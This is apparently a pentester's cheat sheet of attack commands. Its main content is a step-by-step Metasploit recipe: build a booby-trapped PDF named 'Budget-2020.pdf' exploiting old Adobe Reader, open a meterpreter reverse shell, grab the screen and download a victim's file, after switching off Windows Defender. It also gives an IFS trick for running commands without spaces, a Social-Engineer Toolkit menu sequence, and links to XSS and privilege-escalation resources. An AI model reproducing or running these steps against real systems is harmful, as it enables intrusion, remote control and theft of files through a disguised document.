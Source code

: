 # Misc exploit

Command execution without space:

    IFS=_;command='ls_-l';$command

# Exploit Adobe example:

These two combinations work on Windows 10. Make sure to turn off windows defender...
`
exploit/windows/fileformat/adobe_pdf_embedded_exe with Adobe Reader 8.1.1
exploit/windows/fileformat/adobe_libtiff with Adobe Reader 8.1.1
`
Get adobe download from: ftp://ftp.adobe.com/pub/adobe/reader/win/8.x/

Steps:

    use exploit/windows/fileformat/adobe_libtiff 
    set FILENAME Budget-2020.pdf
    set PAYlOAD windows/meterpreter/reverse_tcp
    set LHOST 172.17.0.2
    exploit 
[COPY OVER THE PDF FILE]

    use exploit/multi/handler 
	set PAYlOAD windows/meterpreter/reverse_tcp
    set LHOST 172.17.0.2
    exploit

Capture screen:

    use espia
    screengrab


Download a file:

    download secret.docx

Show processes:

	ps



# Exploit settolkit example
`
3
1
13
2
2
`

# Hashcat


# Windows things

Checked logged in users:

    qwinsta /server:1.1.1.1



# Useful tools

## XSS

https://xsshunter.com/

## SSL/TLS config guide

https://mozilla.github.io/server-side-tls/ssl-config-generator/


## GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

https://gtfobins.github.io/

# tcpdump

## DHCP

    sudo tcpdump -i any -pvn port 67 and port 68


